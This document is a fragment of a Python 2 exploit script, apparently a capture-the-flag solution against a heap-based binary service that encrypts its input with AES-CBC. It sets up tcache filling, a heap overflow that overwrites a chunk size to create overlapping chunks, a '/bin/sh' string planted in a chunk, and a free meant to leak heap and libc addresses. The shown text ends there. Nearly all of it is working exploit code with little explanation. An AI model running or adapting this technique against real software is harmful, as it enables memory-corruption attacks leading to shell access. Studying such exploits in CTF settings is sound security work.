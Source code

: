 ```python
    aes = AES.new(key, AES.MODE_CBC, '\x00'*16)
    l_d = aes.decrypt(last)
    l_num = int(l_d.encode('hex'), 16)
    #print hex(l_num)
    l_num ^= 0x10101010101010101010101010101010
    #print hex(l_num)
    prev_cipher = ('%032x' % l_num).decode('hex')

    aes = AES.new(key, AES.MODE_CBC, iv)
    return aes.decrypt(cipher[:-16]+prev_cipher)

def pad(plain):
    l = len(plain)%16
    l = 16-l
    return plain+chr(l)*l

def encrypt(plain):
    global key, iv
    aes = AES.new(key, AES.MODE_CBC, iv)
    return aes.encrypt(pad(plain))[16:]

def decrypt(cipher):
    global key, iv
    aes = AES.new(key, AES.MODE_CBC, iv)
    return aes.decrypt(cipher)

# fill 0x30 tcache
add(3, 1, 15, 'a'*15)
for i in range(7):
    show(2)

# overlapped chunk by overflow
add(4, 1, 0x4f, 'a'*0x4f)
add(5, 1, 0x5f, 'a'*0x5f)
for i in range(7):
    show(5)
for i in range(10):
    show(4)
for i in range(6, 8):
    add(i, 1, 0x5f, 'a'*0x5f)

# overflow payload
x = ciphertext2plain('\x00'*4+flat(0, 0, 0x451, 0)[:-4])
print x.encode('hex')
xx = encrypt(x)
print xx.encode('hex')
add(17, 1, 0x20, x)
# 4's size overwritten to 0x681
show(17)
delete(4)

show(5)
add(8, 1, 0x5f, 'a'*0x30+flat(0, 0x71)+'a'*0x1f)
add(9, 1, 0x5f, 'a'*0x5f)
add(10, 1, 0x5f, 'a'*0x5f)
add(11, 1, 0x5f, '/bin/sh\x00'.ljust(0x5f))
add(12, 1, 0x5f, 'a'*0x5f)
add(13, 1, 0x5f, 'a'*0x30+flat(0, 0x71)+'a'*0x1f)
add(14, 1, 0x5f, 'a'*0x5f)
# 5 == 13, 12 == 14

# leak heap & libc
delete(10)
```